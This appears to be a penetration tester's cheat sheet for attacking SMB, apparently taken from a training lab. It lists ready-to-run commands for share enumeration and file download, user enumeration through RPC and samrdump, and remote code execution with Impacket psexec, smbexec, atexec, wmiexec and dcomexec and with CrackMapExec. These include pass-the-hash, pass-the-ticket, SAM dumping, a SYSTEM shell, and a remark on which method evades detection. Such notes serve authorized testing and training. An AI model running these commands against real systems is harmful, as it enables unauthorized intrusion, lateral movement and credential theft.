 # Interacting
## Connecting
```bash
$ smbclient -U bob //10.129.42.253/users
$ smbclient -U user \\\\10.129.42.197\\SHARENAME

# PTH
$ smbclient.py -hashes":<hash>" <user>@<ip>
```

## Download Files
```bash
smb: \> get prep-prod.txt 
```

## Show avaiable shares
```bash
# crackmapexec
$ crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
$ crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'

# smbmap
$ smbmap -H 10.129.14.128
$ smbmap -H 10.129.14.128 -r notes
$ smbmap -H 10.129.14.128 --download "notes\note.txt"
$ smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"

# smbclient
$ smbclient -N -L //10.129.14.128
```

- `-N` suppresses the password prompt
- `-L` want to retrieve a list of available shares on the remote host


# Footprinting
## Nmap
```bash
$ sudo nmap 10.129.14.128 -sV -sC -p139,445
$ nmap --script smb-os-discovery.nse -p445 10.10.10.40
```

## Remote Procedure Call (RPC)
```bash
$ rpcclient <IP> -U ""
$ rpcclient -U'%' <IP>
$ rpcclient -U "" -N 172.16.5.5
```

| Query              | Description                                                      |
|--------------------|------------------------------------------------------------------|
| srvinfo            | Server information.                                              |
| enumdomains        | Enumerate all domains that are deployed in the network.          |
| querydominfo       | Provides domain, server, and user information of deployed domains.|
| netshareenumall    | Enumerates all available shares.                                 |
| netsharegetinfo <share> | Provides information about a specific share.                   |
| enumdomusers       | Enumerates all domain users.                                     |
| queryuser <RID>    | Provides information about a specific user.                      |


## Impacket - Samrdump.py (Brute Forcing User RIDs)
```bash
$ samrdump.py 10.129.14.128
```

## Enum4Linux-ng
```bash
$ git clone https://github.com/cddmp/enum4linux-ng.git
$ cd enum4linux-ng
$ pip3 install -r requirements.txt
$ ./enum4linux-ng.py <IP> -A -C
```

# Remote Code Execution
- Impacket PsExec - Python PsExec like functionality example using RemComSvc.
- Impacket SMBExec - A similar approach to PsExec without using RemComSvc. The technique is described here. This implementation goes one step further, instantiating a local SMB server to receive the output of the commands. This is useful when the target machine does NOT have a writeable share available.
- Impacket atexec - This example executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.
- CrackMapExec - includes an implementation of smbexec and atexec.
- Metasploit PsExec - Ruby PsExec implementation.


```
$ impacket-psexec -h
$ impacket-psexec administrator:'Password123!'@10.10.110.17
```

```
$ crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
$ crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
$ crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
$ crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

## interactive-shell
**Psexec.py [https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py]**
One of the most useful tools in the Impacket suite is psexec.py. Psexec.py is a clone of the Sysinternals psexec executable, but works slightly differently from the original. The tool creates a remote service by uploading a randomly-named executable to the ADMIN$ share on the target host. It then registers the service via RPC and the Windows Service Control Manager. Once established, communication happens over a named pipe, providing an interactive remote shell as SYSTEM on the victim host.

To connect to a host with psexec.py, we need credentials for a user with local administrator privileges.

```bash
# ClearText
$ impacket-psexec <domain>/<user>:<password>@<ip>
$ psexec.py <domain>/<user>:<password>@<ip>

# PTH
$ impacket-psexec -hashes ":<hash>"<user>@<ip>`
$ psexec.py -hashes ":<hash>"<user>@<ip>

# PTT - Same as PassTheHash but use -k and -no-pass 
$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
$ psexec.py -dc-ip IP -target-ip $IP -no-pass -k <DOMAIN>/<USER>@<target machine name>.<DOMAIN> -> goat
$ psexec.py -dc-ip <IP> -no-pass -k <domain>/<user>@<ip>
```

### pseudo-shell (file write and read)
#### Impacket Toolkit
**Atexec.py [https://github.com/fortra/impacket/blob/master/examples/atexec.py]**
```bash
# ClearText
$ atexec.py <domain>/<user>:<password>@<ip> "command" 

# PTH
$ atexec.py -hashes ":<hash>" <domain>/<user>@<ip> "command"

# PTT
$ atexec.py <domain>/<user>@<ip> "command" -k -no-pass
```

**Smbexec.py [https://github.com/fortra/impacket/blob/master/examples/smbexec.py]**
```bash
# ClearText
$ smbexec.py <domain>/<user>:<password>@<ip>

# PTH
$ smbexec.py -hashes ":<hash>" <domain>/<user>@<ip> 

# PTT
$ smbexec.py <domain>/<user>@<ip> -k -no-pass
```

**Wmiexec.py [https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py]**
Wmiexec.py utilizes a semi-interactive shell where commands are executed through Windows Management Instrumentation. It does not drop any files or executables on the target host and generates fewer logs than other modules. After connecting, it runs as the local admin user we connected with (this can be less obvious to someone hunting for an intrusion than seeing SYSTEM executing many commands). This is a more stealthy approach to execution on hosts than other tools, but would still likely be caught by most modern anti-virus and EDR systems. We will use the same account as with psexec.py to access the host.
```bash
# ClearText
$ wmiexec.py <domain>/<user>:<password>@<ip>

# PTH
$ wmiexec.py -hashes":<hash>" <user>@<ip> 
```

**Dcomexec.py [https://github.com/fortra/impacket/blob/master/examples/dcomexec.py]**
```bash
# ClearText
$ dcomexec.py <domain>/<user>:<password>@<ip>

# PTH
$ dcomexec.py -hashes ":<hash>"<user>@<ip> 
```

**CrackMapExec**
```bash
# ClearText
$ crackmapexec smb <ip> -u <user> -p <pssword> -x <command> --exec-method smbexec
$ crackmapexec smb <ip_range> -u <user> -p < password> -d <domain>
$ crackmapexec smb <ip_range> -u <user> -p < password> -local-auth

# PTH
$ crackmapexec smb <ip_range> -u <user> -d <domain> -H ':<hash>' 
$ crackmapexec smb <ip_range> -u <user> -H ':<hash>' --local-auth
```

